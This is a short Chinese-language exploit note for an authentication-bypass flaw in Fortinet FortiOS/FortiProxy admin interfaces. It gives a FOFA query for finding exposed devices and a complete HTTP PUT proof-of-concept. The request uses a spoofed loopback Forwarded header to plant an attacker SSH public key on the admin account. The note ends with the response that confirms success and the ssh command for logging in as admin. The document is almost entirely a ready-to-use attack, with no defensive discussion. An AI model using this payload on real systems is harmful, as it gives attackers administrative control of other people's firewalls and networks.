


# Fortinet FortiOS admin 远程命令执行漏洞
## 资产收集
fofa：`title="FortiProxy"`  

## POC
```html
PUT /api/v2/cmdb/system/admin/admin HTTP/2
Host:{Hostname}
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 407
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "\"ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA03fxsQaPF5E4dG+VEt6L0eenZNRbxsvIs6K4e8NQfEwMQOduZdeK79SeJWjgYD9lvm9pyyX73uvZBa4bU/otAZiR+UxjTYVPDZrdOA4LLbnp4ItKxjnLYBk7DfqIvsP2UHydT8+ovznk37T45QavvHJRa6W11eP8dgKdiT049orOsGQ7e2M4+FnhouQQ4keBmoU5MCW4bv8CyUM4MVpQSZLG8wlT0osYvrlk+WFio4+ZDvamfVV0xzXmqhODUp5oCgfe2TXf3GUE36cvIix046R81kA8ZrreQSp5mHladf2QFdWAfXNelPKdT+I6sl39RkUzGdyE/2yErH2T8mFIPQ==\""}
```
返回`SSH key is good.`证明写入成功
  
通过admin用户使用公钥连接：`ssh -i id_rsa admin@x.x.x.x`